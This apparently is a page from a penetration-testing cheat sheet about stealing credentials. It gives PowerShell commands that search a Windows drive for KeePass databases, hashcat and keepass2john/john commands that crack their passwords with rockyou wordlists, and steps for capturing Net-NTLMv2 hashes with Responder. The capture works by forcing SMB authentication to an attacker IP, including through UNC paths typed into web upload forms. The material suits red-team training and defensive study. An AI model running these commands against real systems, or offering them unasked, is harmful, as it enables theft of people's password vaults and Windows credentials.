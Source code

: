 ## Keepass

{% code overflow="wrap" fullWidth="true" %}
```bash
https://web.archive.org/web/20220123003835/https://www.harmj0y.net/blog/redteaming/a-case-study-in-attacking-keepass/
https://web.archive.org/web/20220122225230/http://www.harmj0y.net/blog/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/
https://github.com/GhostPack/KeeThief

# Loot on Windows
Get-ChildItem -Path C:\ -Include @("*kee*.exe", "*.kdb*") -Recurse -ErrorAction SilentlyContinue | Select-Object -Expand FullName | fl
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
# Before cracking, remove the "Database:" string from the hash
hashcat -m 13400 hashes rockyou.txt -r rockyou-30000.rule

sudo apt-get install -y kpcli # Install keepass tools like keepass2john
keepass2john file.kdbx > hash # The keepass is only using password
keepass2john -k <file-password> file.kdbx > hash # The keepass is also using a file as a needed credential
# The keepass can use a password and/or a file as credentials, if it is using both you need to provide them to keepass2john
john --wordlist=/usr/share/wordlists/rockyou.txt hash

# keepass2john do not work if Keepass version > 2.36 as it is unsupported on John. No way to get it since hashcat needs a hash :(
# A way to overcome this via bruteforce is https://github.com/r3nt0n/keepass4brute
```
{% endcode %}

## Password Hashes

We can only extract passwords if we are running Mimikatz as Administrator (or higher) and have the _SeDebugPrivilege_ access right enabled.

## Cracking Net-NTLMv2

If we've obtained code execution on a remote system, we can easily force it to authenticate with us by commanding it to connect to our prepared SMB server. For example, we can simply run **ls \\\LOCAL\_IP\SHARE** in PowerShell (assuming our Responder is listening on that IP). If we don't have code execution, we can also use other vectors to force an authentication. For example, when we discover a **file upload/URL form in a web application** on a Windows server, we can try to enter a non-existing file with a **UNC path** like '\LHOST\SHARE\nonexistent.txt or \\\\\\\LHOST\\\SHARE\\\nonexistent.txt'. If the web application supports uploads via SMB, the Windows server will authenticate to our SMB server.

```bash
sudo responder -I $interface
# To catch a Net-NTLMv2 hash
dir \\192.168.119.2\test
\\192.168.119.2\share
```
